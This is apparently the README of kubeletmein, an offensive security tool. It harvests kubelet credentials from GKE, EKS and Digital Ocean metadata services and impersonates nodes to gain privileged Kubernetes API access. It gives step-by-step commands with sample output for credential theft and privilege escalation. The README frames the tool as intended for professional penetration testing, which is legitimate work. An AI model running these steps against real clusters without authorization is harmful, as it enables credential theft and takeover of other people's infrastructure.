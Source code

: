 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled (the default setting).

### EKS

EKS support added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This is a one step process and doesn't create a fake node, but rather impersonates the node on which the pod is running.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

### GKE

On GKE kubeletmein is a two stage process. First we write out a bootstrap-kubeconfig using the certificates and key from the `kube-env` instance attribute. Then we generate a certificate sigining request and use the bootstrap config to submit it to the API for approval.

```
~ $ kubeletmein bootstrap gke
2018-11-29T21:21:26Z [ℹ]  fetching kubelet creds from metadata service
2018-11-29T21:21:26Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet cert to: kubelet.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet key to: kubelet.key
2018-11-29T21:21:26Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  wrote bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  now generate a new node certificate with: kubeletmein gke generate
```

Then we download the certificate and configure `kubeconfig`.

```
~ $ kubeletmein generate -n gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  using bootstrap-config to request new cert for node: gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  got new cert and wrote kubeconfig
2018-11-29T21:23:33Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein eks
2021-03-01T21:53:36Z [ℹ]  downloading aws-iam-authenticator and generating kubeconfig for current EKS node
2021-03-01T21:53:36Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-01T21:53:36Z [ℹ]  getting IMDSv2 token
2021-03-01T21:53:36Z [ℹ]  getting user-data
2021-03-01T21:53:36Z [ℹ]  downloading aws-iam-authenticator...
2021-03-01T21:53:36Z [ℹ]  fetching information about aws-iam-authenticator latest release
2021-03-01T21:53:36Z [ℹ]  downloading aws-iam-authenticator from https://github.com/kubernetes-sigs/aws-iam-authenticator/releases/download/v0.5.2/aws-iam-authenticator_0.5.2_linux_amd64
2021-03-01T21:53:37Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-01T21:53:37Z [ℹ]  wrote kubeconfig
2021-03-01T21:53:37Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### Digital Ocean

```
~ $ kubeletmein bootstrap do
2018-12-12T23:34:19Z [ℹ]  fetching kubelet creds from metadata service
2018-12-12T23:34:19Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-12-12T23:34:19Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  wrote bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  now generate a new node certificate with: kubeletmein do generate
```

Now generate the kubeconfig with a downloaded cert
```
~ $ kubeletmein generate -n whatevs
2018-12-12T23:36:46Z [ℹ]  using bootstrap-config to request new cert for node: whatevs
2018-12-12T23:36:46Z [ℹ]  got new cert and wrote kubeconfig
2018-12-12T23:36:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
